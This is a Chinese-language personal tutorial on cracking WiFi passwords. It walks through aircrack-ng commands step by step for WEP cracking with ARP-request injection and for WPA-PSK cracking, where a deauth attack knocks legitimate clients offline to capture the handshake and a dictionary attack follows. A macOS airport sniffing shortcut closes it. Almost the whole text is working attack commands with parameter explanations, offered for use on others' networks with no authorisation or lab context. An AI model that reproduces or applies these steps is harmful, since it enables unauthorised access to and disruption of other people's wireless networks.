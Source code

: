 # Mac下的WIFI破解

以前破wifi用的是CDLinux下的工具，最近换了mac研究了一下mac下的wifi破解工具，速度还行。不过现在到处都是免费wifi，还有好用的万能钥匙，这些技术用的都比较少了，写下来备用吧。


## 一、wep破解

### 1、载入无线网卡

```
ifconfig -a查看网卡
ifconfig wlan0 up加载网卡
iwconfig只查看无线网卡
```

### 2、激活无线网卡只monitor监听模式

```
airmon-ng start 上面查看的网卡名

monitor mode enabled on mon0便是已启动监听模式，监听模式下适配器名称变更为mon0。
```

### 3、探测无线网络，抓取无线数据包

```
airodump-ng mon0 //mon0为之前已经载入并激活监听模式的无线网卡

airodump-ng --ivs –w longas -c 6 wlan0 //抓取数据包
参数解释：
--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。
```

### 4、对目标AP使用ArpRequest注入攻击，加速数据包的获取

```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
参数解释：
-3 指采用ARPRequesr注入攻击模式；
-b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
-h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
最后跟上无线网卡的名称，这里就是mon0啦。
在等待片刻之后，一旦成功截获到ARP请求报文，我们将会看到如下图13所示的大量ARP报文快速交互的情况出现。
此时回到airodump-ng 会看到packets栏的数字在飞速递增。
```

### 5、打开aircrack-ng，开始破解WEP
在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功就等待数据报文的继续抓取然后多试几次。注意，此处不需要将进行注入攻击的Shell关闭，而是另外开一个Shell进行同步破解。输入命令如下：

```
aircrack-ng 捕获的ivs文件
```

## 二、wap-psk破解
### 1、升级Aircrack-ng
最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：

```
airodump-ng-oui-update
```

### 2、载入并激活无线网卡至monitor即监听模式
载入无线网卡的顺序及命令部分，依次输入下述命令

```
startx            进入到图形界面
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```

### 3、探测无线网络，抓取无线数据包

```
airodump-ng -c 6 –w longas mon0
参数解释：
-c 这里我们设置目标AP的工作频道，通过观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，这里我就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longas.cap，而是longas-01.cap。
mon0 为之前已经载入并激活监听模式的无线网卡。
```

### 4、进行Deauth攻击加速破解过程
和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：

```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0 
参数解释：
-0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等；
-a 后跟AP的MAC地址；
-c 后跟客户端的MAC地址；
```

### 5、开始破解WPA-PSK
在成功获取到无线WPA-PSK验证数据报文后，就可以开始破解，输入命令如下：

```
aircrack-ng -w dic 捕获的cap文件 
-w 后跟预先制作的字典，这里是BT4下默认携带的字典。
```

### 命令合集

```
aircrack-ng
主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解
airmon-ng
用于改变无线网卡工作模式，以便其他工具的顺利使用
airodump-ng
用于捕获802.11数据报文，以便于aircrack-ng破解
aireplay-ng
在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量
airserv-ng
可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
airolib-ng
进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
airdecap-ng
用于解开处于加密状态的数据包
tools
其他用于辅助的工具，如airdriver-ng、packetforge-ng等
```

---

# 破解WIFI密码总结
这里我总结一下常用的流程，其实只有3个步骤。

### 获取搜索到的wifi

```
airport -s
SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
```

### 开始监听

```
sudo airport en0 sniff 1
en0是网卡   1是要抓包的信道
抓包.cap文件默认保存在/tmp  -w可以改变保存路径
```

### 解析

```
aircrack-ng -w 1.txt 1.cap
1.txt是字典暴  1.cap是抓包文件
可以看到cap包的内容，Encryption中（0 handshake）是抓包失败，（1 handshake）则是抓包成功。
记住成功的行数，Index number of target network ?后面输入行数，回车。
```

